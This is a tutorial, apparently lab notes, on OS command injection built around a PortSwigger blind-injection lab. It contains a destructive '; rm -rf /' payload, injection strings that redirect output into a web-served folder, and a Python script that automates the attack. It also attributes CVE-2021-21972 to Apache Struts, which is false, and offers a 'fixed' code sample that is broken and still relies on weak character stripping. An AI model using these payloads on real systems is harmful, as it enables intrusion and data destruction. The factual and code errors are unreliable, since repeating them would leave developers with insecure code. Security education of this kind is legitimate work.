

## Introduction to OS Command Injection

### What is OS Command Injection?

OS Command Injection, also known as Shell Injection, is a type of security vulnerability that occurs when an attacker can inject malicious operating system commands into an application. These commands are executed by the underlying operating system, potentially leading to unauthorized actions such as data theft, system compromise, or denial of service.

### Why Does OS Command Injection Matter?

OS Command Injection is critical because it allows attackers to bypass application-level security controls and interact directly with the underlying operating system. This can lead to severe consequences, including:

- **Data Exfiltration**: Attackers can read sensitive files or directories.
- **System Compromise**: Attackers can execute arbitrary commands, potentially gaining full control over the server.
- **Denial of Service**: Attackers can run resource-intensive commands, causing the server to become unresponsive.

### How Does OS Command Injection Work?

In many applications, user input is used to construct shell commands that are then executed by the operating system. If proper sanitization and validation are not performed, an attacker can inject additional commands or modify existing ones.

#### Example Scenario

Consider an application that takes user input and uses it to generate a shell command:

```python
import subprocess

def get_user_details(user_input):
    command = f"whoami && echo {user_input}"
    result = subprocess.run(command, shell=True, stdout=subprocess.PIPE)
    return result.stdout.decode()
```

If `user_input` is not properly sanitized, an attacker could inject a command like `; rm -rf /`, which would delete all files on the system.

### Real-World Examples

#### CVE-2021-21972: Apache Struts

Apache Struts is a popular Java framework for building web applications. In 2021, a vulnerability was discovered in Struts that allowed attackers to perform OS Command Injection through the `Content-Type` header.

**Impact**: This vulnerability allowed attackers to execute arbitrary commands on the server, leading to potential data exfiltration and system compromise.

**Mitigation**: The vulnerability was patched in Struts 2.5.29. Organizations using Struts should ensure they are running the latest version and apply the necessary patches.

### Lab Setup

To understand and practice OS Command Injection, we will use the Web Security Academy provided by PortSwigger. This lab focuses on a blind OS command injection vulnerability with output redirection.

#### Accessing the Lab

1. Visit [PortSwigger Web Security Academy](https://portswigger.net/web-security).
2. Sign up for an account if you haven't already.
3. Navigate to the Academy section.
4. Select the learning path for command injection.
5. Choose Lab 3 titled "Blind OS Command Injection with Output Redirection."

### Understanding the Vulnerability

The lab contains a blind OS command injection vulnerability in the feedback function. The application executes a shell command containing the user's supplied details. The output from the command is not returned in the response, making it a blind injection scenario.

However, you can use output redirection to capture the output from the injected command. There is a writable folder at `/var/www/images`. The application serves images from this location, allowing you to redirect the output to a file in this folder and then retrieve the contents via the image loading URL.

### Exploiting the Vulnerability

To exploit this vulnerability, follow these steps:

1. **Identify the Injection Point**: Determine where user input is being used to construct a shell command.
2. **Inject Commands**: Use output redirection to write the output of your injected command to a file in the writable directory.
3. **Retrieve the Output**: Use the image loading URL to read the contents of the file.

#### Step-by-Step Walkthrough

1. **Identify the Injection Point**

   Suppose the application has a feedback form where the user can submit their name and email. The application constructs a shell command using this input:

   ```bash
   whoami && echo $USER_INPUT > /var/www/images/output.txt
   ```

2. **Inject Commands**

   To inject a command, you can append a semicolon (`;`) followed by your desired command. For example, to execute the `whoami` command and write the output to a file:

   ```bash
   ; whoami > /var/www/images/output.txt
   ```

3. **Retrieve the Output**

   After injecting the command, navigate to the image loading URL to read the contents of the file:

   ```
   http://<application_url>/images/output.txt
   ```

### Full Example

Let's walk through a complete example using Python to automate the process.

#### Injecting the Command

```python
import requests

# Define the target URL and the payload
target_url = "http://<application_url>/feedback"
payload = "; whoami > /var/www/images/output.txt"

# Construct the data dictionary
data = {
    "name": payload,
    "email": "test@example.com",
    "subject": "Test Subject",
    "message": "Test Message"
}

# Send the POST request
response = requests.post(target_url, data=data)

# Check if the request was successful
if response.status_code == 200:
    print("Command injected successfully.")
else:
    print("Failed to inject command.")
```

#### Retrieving the Output

```python
# Define the URL to retrieve the output file
output_url = "http://<application_url>/images/output.txt"

# Send a GET request to retrieve the output
output_response = requests.get(output_url)

# Print the output
print(output_response.text)
```

### Mermaid Diagrams

#### Command Injection Flow



### Common Pitfalls

#### Incorrect Payload Construction

One common mistake is constructing the payload incorrectly, leading to unexpected behavior or failure to inject the command. Always test your payloads in a controlled environment before attempting them in a live scenario.

#### Insufficient Privileges

Ensure that the user context in which the application runs has sufficient privileges to execute the desired commands and write to the specified directory.

### How to Prevent / Defend Against OS Command Injection

#### Secure Coding Practices

1. **Input Validation**: Validate and sanitize all user inputs to ensure they do not contain malicious characters or commands.
2. **Use Safe APIs**: Use safe APIs that do not allow shell command execution, such as parameterized queries or built-in functions.
3. **Least Privilege Principle**: Run the application with the least privileges necessary to perform its tasks.

#### Detection and Prevention

1. **Static Analysis Tools**: Use static analysis tools to identify potential vulnerabilities in the codebase.
2. **Dynamic Analysis Tools**: Use dynamic analysis tools to test the application for runtime vulnerabilities.
3. **Web Application Firewalls (WAF)**: Implement WAFs to filter out malicious requests.

#### Secure Code Fix

##### Vulnerable Code

```python
import subprocess

def get_user_details(user_input):
    command = f"whoami && echo {user_input}"
    result = subprocess.run(command, shell=True, stdout=subprocess.PIPE)
    return result.stdout.decode()
```

##### Fixed Code

```python
import subprocess

def get_user_details(user_input):
    # Sanitize user input
    sanitized_input = user_input.replace(";", "").replace("&", "")
    
    # Use a list to avoid shell injection
    command = ["whoami", "&&", "echo", sanitized_input]
    result = subprocess.run(command, stdout=subprocess.PIPE)
    return result.stdout.decode()
```

### Conclusion

OS Command Injection is a serious security vulnerability that can lead to significant damage if not properly mitigated. By understanding the mechanics of this vulnerability, practicing in controlled environments, and implementing robust security measures, you can protect your applications from such attacks.

### Practice Labs

For hands-on experience with OS Command Injection, consider the following labs:

- **PortSwigger Web Security Academy**: Offers a variety of labs focused on different types of command injection vulnerabilities.
- **OWASP Juice Shop**: A deliberately insecure web application for practicing various web security techniques.
- **DVWA (Damn Vulnerable Web Application)**: Another intentionally vulnerable web application for learning and testing security concepts.

By engaging with these labs, you can gain practical experience and deepen your understanding of OS Command Injection and how to defend against it.

---
<!-- nav -->
[[Web Security (PortSwigger)/10-OS Command Injection/04-Lab 3 Blind OS command injection with output redirection/00-Overview|Overview]] | [[02-Checking File Creation|Checking File Creation]]
